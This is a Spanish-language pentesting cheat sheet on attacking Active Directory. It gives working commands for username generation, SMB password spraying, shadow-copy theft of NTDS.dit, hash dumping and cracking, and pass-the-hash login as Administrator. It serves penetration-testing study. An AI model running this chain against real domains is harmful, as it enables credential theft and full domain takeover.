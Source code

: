 # Atacar Active Directory y NTDS.dit
## Descripción
Extraer credenciales mendiante el uso de ataque de diccionario contra cuenta de AD y dumpear hashes desde el NTDS.dit.

### Forma típica de usuarios en el Dominio
- **firstinitiallastname:** jdoe
- **firstinitialmiddleinitiallastname:** jjdoe
- **firstnamelastname:** janedoe
- **firstname.lastname:** jane.doe
- **lastname.firstname:** doe.jane
- **nickname:** doedoehacksstuff

Podemos crear un diccionario de usernames para temas de dominio con el siguiente repo de github: https://github.com/urbanadventurer/username-anarchy

```python
./username-anarchy -i /home/kali/names.txt (los nombres que has creado ejem : Giafar Maldonado)
```
Lanzar un ataque con la lista de posibles usuario combinado con una lista de contraseñas

```python
crackmapexec smb IPVICTIMA -u gmaldonado -p /usr/share/wordlists/fasttrack.txt
```
### Conexión a DC
```python
evil-winrm -i IPVICTIMA  -u gmaldonado -p 'password'
net localgroup
net user gmaldonado
```
### Crear una instancia de C:
```python
vssadmin CREATE SHADOW /For=C:
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\NTDS.dit
```
Toca transferir ese archivo a tu equipo
### Una forma más rápida de capturar NTDS.dit
```python
crackmapexec smb IPVICTIMA -u gmaldonado -p password --ntds
```
Luego puedes romper los hashes NT con el siguiente comando
```python
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
### Ejemplo de pass-the-hash PTH
```python
evil-winrm -i IPVICTIMA -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
